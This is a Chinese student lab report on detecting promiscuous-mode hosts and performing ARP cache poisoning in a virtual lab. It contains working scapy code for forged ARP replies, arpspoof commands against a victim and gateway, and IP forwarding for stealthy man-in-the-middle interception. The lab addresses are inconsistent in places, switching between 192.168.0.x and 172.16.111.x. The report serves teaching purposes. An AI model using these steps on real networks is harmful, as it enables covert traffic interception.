

# chap0x04实验报告

-----

## 实验内容
- [x] 检测局域网中的异常终端
- [x] 手工单步“毒化”目标主机的 ARP 缓存
- [x] 使用自动化工具完成ARP投毒劫持实验
- [ ] 基于scapy编写ARP投毒劫持工具

### 实验过程
#### 实验环境搭建
* 实验主机
    * Kali-Attackter-1  
    * Kali-victim-1 
    * debian-gw
* 实验拓扑图  
 
* 在攻击者主机上提前安装好`scapy`
```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

pip3 install scapy[complete]
``` 
#### 实验一 检测局域网中的异常终端
`异常终端`：本实验中指的是开了混杂模式的主机  ，混杂模式指是指一台机器能够接收所有经过它的数据流，而不论其目的地址是否是他。
```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show enp0s3
```  
  
```bash
# 在攻击者主机上开启 scapy
sudo scapy
pkt = promiscping("172.16.111.102")
```
```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set enp0s3 promisc on
```

```bash
# 再次回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("192.168.0.102")

# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```
两次输出结果如下图：  
  

#### 实验二 手工单步“毒化”目标主机的ARP缓存
以下代码在攻击者主机上的scapy交互模式终端下执行
```bash
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:0f:4c:77
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:0f:4c:77
#      psrc= 172.16.111.110
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 192.168.0.102
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```
按照课件的办法：
```bash
arpspoofed=ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")
```
发现是不能毒化arp缓存表的，会出现以下情况：  
   
添加以太网头可以解决上面的问题：  
```bash
arpspoofed=Ether()/ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")
```
  

回到攻击者主机,恢复arp缓存表：  
```bash
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:e8:c0:ff", pdst="172.16.111.102", hwdst="08:00:27:74:ac:67")
sendp(restorepkt1, count=100, inter=0.2)
## （可选）伪装受害者给网关发送 ARP 响应
restorepkt2 = ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:e8:c0:ff", psrc="172.16.111.102", hwsrc="08:00:27:74:ac:67")
sendp(restorepkt2, count=100, inter=0.2)
```
在受害者主机上查看arp缓存表：
```bash
## 在受害者主机上尝试 ping 网关
ping 192.168.0.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```


#### 实验三 使用自动化工具完成ARP投毒劫持实验

投毒前，查看Kali-Victim的arp缓存表：  

查看网关Debian-gw的arp缓存表：


投毒：
* 欺骗Kali-victim-1(172.16.111.102)说我Kali-Attackter-1(172.16.111.110)是Debian-gw（172.16.111.1）
```bash
root@kali:~# arpspoof -i eth0 -t 172.16.111.102 172.16.111.1
```
* 欺骗Debian-gw（172.16.111.1）说我Kali-Attackter-1(172.16.111.110)是Kali-victim-1(172.16.111.102)

```bash
root@kali:~# arpspoof -i eth0 -t 172.16.111.1 172.16.111.102
```

再次查看Kali-victim-1和debian-gw的arp缓存表：  
  
* 从上图可以看到Kali-Attackter成功毒化了Kali-victim-1的arp缓存表，将Debian-gw的Mac地址换成了Kali-Attackter的Mac地址。
  
* 从上图可以看到Kali-Attackter成功毒化了Debian-gw的arp缓存表，将Kali-victim-1的Mac地址换成了Kali-Attackter的Mac地址。

尝试抓包：

```bash
root@kali:~# tcpdump -i eth0 -w /home/kali/Desktop/test.pcap
```

在桌面上我们可以看到生成的test.pcap,用系统自带的解析软件可以打开分析。

观察发出请求主机上的命令行，发现并没有成功的通信，说明这个毒化是不完整的，能够抓到包，但是不能还原原有的正常通信，只有挂起（ctrl+z）或者结束欺骗（ctrl+c）以后才能正常上网：
  
在投毒前打开Kali-Attackter的流量转发，目的是让攻击者（中间人）转发收到的包到真正的目的地址，攻击者成为真正的中间人：
```bash
root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward
```

### 实验思考
* 攻击者通过改变受害者arp缓存表里的默认网关Mac地址，实现arp投毒，所有需要经过默认网关的数据流量都会传输到攻击者主机。
* 通过kali-arpspoof工具进行中间人arp投毒（自动化投毒工具），可以让被攻击主机不能正常访问网络，且相关的访问请求都可以被攻击主机捕获，使用ctrl+z挂起欺骗进程，使用ctrl+c终止欺骗进程，此时arp缓存表很快会自动恢复，被攻击主机可以正常访问网络。

* 通过kali-arpspoof工具进行中间人arp投毒（自动化投毒工具），攻击者提前开启流量转发，可以做到隐秘的截取信息不容易被检测出来，在投毒前执行以下代码段：
```bash
root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward
```
### 参考资料
[Linux实现的ARP缓存老化时间原理解析](https://developer.aliyun.com/article/494130?spm=a2c6h.13813017.content3.1.707863e8MIWhJn)  
[韩涛同学的实验报告](https://github.com/CUCCS/2022-ns-public-HantaoGG/tree/chap0x04/chap0x04#%E5%AE%9E%E9%AA%8C2-%E6%89%8B%E5%B7%A5%E5%8D%95%E6%AD%A5%E6%AF%92%E5%8C%96%E7%9B%AE%E6%A0%87%E4%B8%BB%E6%9C%BAarp%E7%BC%93%E5%AD%98)  
[arpspoof使用教程](https://blog.csdn.net/qq_54780911/article/details/121891827)  
[arp流量转发实验](https://blog.csdn.net/fengzhantian/article/details/81346552)  